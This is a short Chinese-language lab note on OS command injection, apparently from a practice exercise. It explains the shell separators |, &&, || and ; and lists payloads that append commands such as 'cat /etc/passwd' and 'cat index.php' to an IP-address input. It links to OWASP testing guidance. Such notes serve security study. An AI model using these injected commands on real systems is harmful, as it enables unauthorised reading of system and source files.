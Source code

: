 
#### 重要函式
- stristr(string,search,before_search)
- php_uname(mode)

---

#### 發現可以沒有輸入內容判斷
- Linux指令可以一行多命令
    - 試試看pipe ` |`

![](https://i.imgur.com/5w4gjuU.png)

---

#### 比較 | && || ;
- &&
    - (第2條命令只有在第1條命令成功執行之後才執行。)
- ||
    - (只有||前的命令執行不成功時，才執行後面的命令。)
- ;
    - (順序執行多條命令，當;號前的命令執行完（不管是否執行成功），才執行;後的命令)

---

#### Payload

```
127.0.0.1

127.0.0.1 ; ifconfig

127.0.0.1 ; ls

127.0.0.1 ; cd 

127.0.0.1 ; cd  /var/www
 
127.0.0.1 ; cat index.php

127.0.0.1 ; cat /etc/passwd 
```

---

![](https://i.imgur.com/1SoEAAT.png)

---

#### 撰寫程式時危險的API-1

- [如何測試一個網站有Command Injection弱點](https://www.owasp.org/index.php/Testing_for_Command_Injection_(OTG-INPVAL-013))
